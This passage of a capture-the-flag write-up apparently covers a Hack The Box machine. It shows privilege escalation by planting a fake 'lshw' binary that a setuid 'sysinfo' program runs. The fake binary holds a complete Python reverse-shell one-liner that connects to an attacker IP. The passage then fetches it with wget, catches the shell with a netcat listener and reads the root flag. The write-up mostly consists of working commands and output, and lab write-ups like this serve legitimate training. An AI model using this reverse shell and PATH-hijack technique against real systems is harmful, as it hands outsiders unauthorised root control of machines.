 1. `lshw -short` = Hardware Info
2. `fdisk -l` = Disk Info
3. `cat /proc/cpuinfo` = CPU Info
4. `free -h` = MEM Usage

So localy I wrote a file called lshw with the python command we use earlier in it

**lshw**

```BASH
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("[YOUR IP]",[PORT]));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

Now let's download this file using `wget` onto the machine and give it the appropriate permissions:

```bash
theseus@ubuntu:/tmp$ wget http://[YOUR IP]:8000/lshw 
wget http://[YOUR IP]:8000/lshw
--2020-08-04 07:06:19--  http://[YOUR IP]:8000/lshw
Connecting to [YOUR IP]:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 228 [application/octet-stream]
Saving to: ‘lshw’

lshw                100%[===================>]     228  --.-KB/s    in 0s      

2020-08-04 07:06:19 (29.8 MB/s) - ‘lshw’ saved [228/228]

theseus@ubuntu:/tmp$ chmod 755 lshw
```

Now listen with netcat on you local machine and execute `sysinfo`:

```bash
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.34] from (UNKNOWN) [10.10.10.185] 59856
python3 -c "import pty; pty.spawn('/bin/bash')"
root@ubuntu:/tmp#
```

## GET root flag

Now let's get that flag

```bash
root@ubuntu:~# cd /root
cd /root
root@ubuntu:/root# ls
ls
info.c  root.txt
root@ubuntu:/root# cat root.txt
cat root.txt
c5.........................00
root@ubuntu:/root# 
```

Yay we got it